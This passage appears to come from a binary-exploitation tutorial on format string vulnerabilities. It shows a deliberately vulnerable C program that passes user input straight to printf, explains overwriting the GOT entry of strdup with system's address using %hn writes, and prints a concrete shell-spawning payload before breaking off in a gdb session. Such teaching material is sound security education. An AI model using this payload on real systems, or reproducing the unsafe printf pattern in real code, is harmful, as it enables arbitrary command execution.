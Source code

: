 
Introducing GOT in the program, open up several paths for exploitation. Suppose the in case we are able to write some sane address on to address of `0x804a00c` which is the address where the address for `printf` will be updated by the linker then we can make our program go to our location when the `printf` will be called, what about `system`. It will make `printf` behave like `system`. This concept called **GOT exploitation**.


#### Connecting the dots :smiling_imp:
1. We know how to make format string write to arbitrary address.
2. We know how the functions are called.

```C
#include <stdio.h>
#include <string.h>
// compile with gcc -m32 temp.c

void foo(char *ch)
{
	char buf[100];
	strncpy(buf, ch, 100);
	printf(buf);
	char *name = strdup(buf);
	printf("\nHello %s", name);	
}

int main(int argc, char** argv) 
{
	foo(argv[1]);
	return 0;
}

```

We will overwrite the GOT entry of `strdup` with the address of `system`, so when the `strdup(buf)` is called, `system(buf)` executes. And if gave `/bin/sh` input as `buf`, then `system(/bin/sh"")` will exploit the shell.  

Writing an address using `%n` will be difficult as there is limit on the size of the number that can be written using %n, so will be splitting the address using the concept of `%hn` which is used to write, **2 bytes** at a time.  

Lets craft our payload which would look something like this:  
``./string `python -c 'import struct; print "sh;#" + struct.pack("<I", <SOME_ADDRESS>) + struct.pack("<I", <SOME_ADDRESS>) +"%<SOME_VALUE>x%11$hn%<SOME_VALUE>x%12$hn"'` ``

**11** and **12** are offsets to my location of buffer `buf` form the `printf` function call. This could be different in your case. You need to follow the concept discussed in previous lecture.  

We now have the offset on which we will write our address of `system` function in two parts, but we know that `%hn` will the number of characters printed with `printf` we have to print `len(address(system))` length of garbage. Since our string is limited in size, we cant do that as well. For that we need to take help from the `%x` format specifier. `%(n)x` format specifier will print `(n)` number of spaces in the output but will not increase the size of input string. :cool:  

The final payload may look like this  
``./string `python -c 'import struct; print "sh;#" + struct.pack("<I", 0x804a010) + struct.pack("<I", 0x804a012) +"%10948x%11$hn%13068x%12$hn"'` ``
Now lets take a look at how I found the address of the system,  
```bash
$ gdb ./string 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
```